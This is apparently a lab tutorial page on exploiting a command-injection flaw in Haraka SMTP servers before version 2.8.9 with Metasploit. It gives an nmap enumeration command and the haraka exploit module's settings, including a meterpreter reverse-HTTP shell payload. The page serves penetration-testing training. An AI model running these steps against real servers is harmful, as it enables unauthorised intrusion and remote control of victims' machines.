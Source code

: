 # Exploiting A Vulnerable SMTP Server

## Exploiting SMTP

* SMTP is a communication protocol that is used for the transmission of email.
* <mark style="color:red;">Haraka</mark> is an open source high performance SMTP server developed in <mark style="color:blue;">Node.js</mark>.
* The Haraka SMTP server comes with a plugin for processing attachments. Haraka versions prior to <mark style="color:red;">V2.8.9</mark> are vulnerable to command injection.

## Practice Demo

Enumerate the target using the db\_nmap command

* <mark style="color:yellow;">db\_nmap -sS -sV -O targetIP</mark>

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Use the module <mark style="color:red;">exploit/linux/smtp/haraka</mark>

* <mark style="color:yellow;">set SRVPORT 9898</mark>
  * <mark style="color:red;">**SRVPORT**</mark> is used to host a service during the exploitation process.
* <mark style="color:yellow;">set email\_to root@attackdefense.test</mark>
  * This option specifies the target email address to which the exploit will be sent. It should be the email address of the intended victim on the Haraka SMTP server.
* <mark style="color:yellow;">set payload linux/x64/meterpreter\_reverse\_http</mark>
  * This payload requires the port 8080


